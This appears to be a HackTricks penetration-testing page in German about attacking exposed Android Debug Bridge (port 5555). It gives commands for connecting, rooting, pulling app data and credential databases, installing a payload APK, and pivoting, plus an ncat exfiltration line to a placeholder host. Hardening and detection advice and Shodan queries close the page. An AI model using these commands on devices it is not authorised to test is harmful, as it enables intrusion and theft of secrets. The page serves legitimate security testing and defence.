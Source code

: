 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Grundlegende Informationen

Von [den Dokumenten](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) ist ein Befehlszeilenwerkzeug zur Kommunikation mit Android-basierten Geräten und Emulatoren. Typische Aktionen umfassen das Installieren von Paketen, Debugging und das Erhalten einer interaktiven Unix-Shell auf dem Gerät.

- Historischer Standard-TCP-Port: 5555 (klassischer "adb tcpip"-Modus).
- Modernes kabelloses Debugging (Android 11+) verwendet TLS-Paarung und mDNS-Dienstentdeckung. Der Verbindungsport ist dynamisch und wird über mDNS entdeckt; er muss nicht 5555 sein. Die Paarung erfolgt mit adb pair host:port gefolgt von adb connect. Siehe die untenstehenden Hinweise zu offensiven Implikationen.

Beispiel nmap-Fingerabdruck:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Verbinden

Wenn Sie ADB exponiert und erreichbar finden, versuchen Sie schnell zu verbinden und zu enumerieren:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- Wenn das Gerät die ADB-Authentifizierung durchsetzt (ro.adb.secure=1), müssen Sie vorab autorisiert sein (USB RSA-Authentifizierung) oder die drahtlose Debugging-Paarung von Android 11+ verwenden (die einen einmaligen Code erfordert, der auf dem Gerät angezeigt wird).
- Einige Herstellerbilder, Engineering-/Userdebug-Bauten, Emulatoren, Fernseher, STBs und Entwicklungskits setzen adbd ohne Authentifizierung oder mit adbd, das als Root ausgeführt wird, frei. In diesen Fällen landen Sie normalerweise direkt in einer Shell oder Root-Shell.

Für eine allgemeine ADB-Befehlsreferenz siehe:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Schnelle Nachnutzung

Sobald Sie eine Shell haben, überprüfen Sie die Berechtigungen und den SELinux-Kontext:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Auflisten und Erfassen von Daten

- Liste von Drittanbieter-Apps und Pfaden:
```bash
pm list packages -3
pm path <pkg>
```
- Wenn du Root hast (adb root oder su funktioniert), kannst du direkt auf /data zugreifen. Andernfalls bevorzuge run-as für debuggable Apps:
```bash
# Ohne Root, für eine debuggable App
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# Mit Root
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Nützliche Systemartefakte (Root erforderlich):
- /data/system/users/0/accounts.db und verwandte AccountManager-Daten
- /data/misc/wifi/ (Netzwerkkonfigurationen/Schlüssel in älteren Versionen)
- App-spezifische SQLite-Datenbanken und shared_prefs unter /data/data/<pkg>

Du kannst dies verwenden, um sensible Informationen abzurufen (z. B. App-Geheimnisse). Für Hinweise zu Chrome-Datenüberlegungen siehe das Problem, das [hier](https://github.com/carlospolop/hacktricks/issues/274) erwähnt wird.

### Codeausführung und Payload-Zustellung

- Installiere und gewähre automatisch Laufzeitberechtigungen:
```bash
adb install -r -g payload.apk         # -g gewährt alle im Manifest deklarierten Laufzeitberechtigungen
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Starte Aktivitäten/Dienste/Broadcasts direkt:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Portweiterleitung und Pivotierung

Selbst ohne Root kann adb lokale Ports auf Geräteports und umgekehrt weiterleiten. Dies ist nützlich, um auf lokal gebundene Dienste auf dem Gerät zuzugreifen oder Angreiferdienste dem Gerät zur Verfügung zu stellen.

- Weiterleitung Host->Gerät (Zugriff auf einen geräte-lokalen Dienst von deinem Host):
```bash
adb forward tcp:2222 tcp:22       # Wenn das Gerät SSH ausführt (z. B. Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Exponiere den lokalen Debug-Server der App
```
- Umgekehrte Weiterleitung Gerät->Host (lass das Gerät einen Dienst auf deinem Host erreichen):
```bash
adb reverse tcp:1080 tcp:1080     # Geräte-Apps können jetzt host:1080 als 127.0.0.1:1080 erreichen
```
- Datei-Exfiltration über Sockets (keine sdcard-Schreibvorgänge):
```bash
# Auf dem Host: hören
ncat -lvp 9000 > dump.tar
# Auf dem Gerät: Verzeichnis als tar senden (Root oder run-as wie zutreffend)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Drahtloses Debugging (Android 11+)

Modernes Android implementiert TLS-geschütztes drahtloses Debugging mit geräteseitiger Kopplung und mDNS-Entdeckung:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Notizen
- Ports sind dynamisch; gehen Sie nicht von 5555 aus. mDNS-Dienstenamen sehen aus wie:
- _adb-tls-pairing._tcp (Pairing)
- _adb-tls-connect._tcp (gepaart verbinden)
- _adb._tcp (legacy/plain)
- Wenn mDNS gefiltert ist, kann das klassische USB-unterstützte Aktivieren möglicherweise bei einigen Builds noch funktionieren: `adb tcpip 5555` dann `adb connect <ip>:5555` (bis zum Neustart).

Offensive Implikationen: Wenn Sie mit der Benutzeroberfläche des Geräts interagieren können (z. B. physischer Zugriff oder falsche Konfiguration von mobilem MDM), um das drahtlose Debugging zu aktivieren und den Pairing-Code anzuzeigen, können Sie einen langlebigen, gepaarten ADB-Kanal ohne Kabel einrichten. Einige OEMs bieten ADB über TCP in Engineering-/Entwicklungsbildern ohne Pairing an – immer überprüfen.

## Härtung / Erkennung

Verteidiger sollten davon ausgehen, dass jeder erreichbare adbd (TCP) ein kritisches Risiko darstellt.

- Deaktivieren Sie ADB und drahtloses Debugging, wenn nicht benötigt. Widerrufen Sie USB-Debugging-Berechtigungen in den Entwickleroptionen.
- Stellen Sie sicher, dass die Netzwerkpolitik eingehendes TCP/5555 und mDNS-basiertes ADB-Discovery in nicht vertrauenswürdigen Segmenten blockiert.
- Auf Geräten unter Ihrer Kontrolle:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # TCP-Listening deaktivieren (oder verwenden: adb usb)
stop adbd; start adbd             # Daemon neu starten
```
- Überwachen Sie mDNS-Einträge `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` in Unternehmensnetzwerken und alarmieren Sie bei unerwarteten 5555-Listenern.
- Inventarisieren Sie unsichere Builds: `getprop ro.debuggable`, `ro.build.type` und `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## Referenzen

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB über Wi‑Fi, Pairing und mDNS-Dienstenamen: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}

